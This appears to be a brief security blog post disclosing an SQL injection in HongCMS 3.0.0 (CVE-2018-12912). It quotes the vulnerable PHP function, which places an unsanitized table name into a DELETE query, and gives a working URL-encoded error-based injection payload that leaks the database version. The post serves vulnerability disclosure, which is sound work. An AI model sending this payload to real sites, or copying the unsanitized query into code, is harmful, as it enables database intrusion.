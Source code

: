+++
title = "HongCMS 3.0.0 – SQL Injection"
author = "Hzllaga"
date =  2018-06-29
description = ""
categories = ["原创"]
tags = ["代码审计","PHP","SQL注入","CVE"]

+++
Vulnerability file: admin\controllers\database.php<!--more-->
{{< highlight php >}}
private function EmptyTable($tablename)
{
    $this->db->exe("DELETE FROM `$tablename`");
    $msg = '已完成清空数据库表: ' . $tablename . '<br/>';

    return $msg;
}
{{< /highlight >}}

The $tablename parameter controllable.

POC (Administrator Privilege):

{{< highlight php >}}

/admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60%20where%20vvcid%3D1%20or%20updatexml%282%2Cconcat%280x7e%2C%28version%28%29%29%29%2C0%29%20or%20%60

{{< /highlight >}}

![](https://cdn.wtfsec.org/img/20200223163530.png)
CVE:[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12912](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12912)
exploit-db:[https://www.exploit-db.com/exploits/44953/](https://www.exploit-db.com/exploits/44953/)
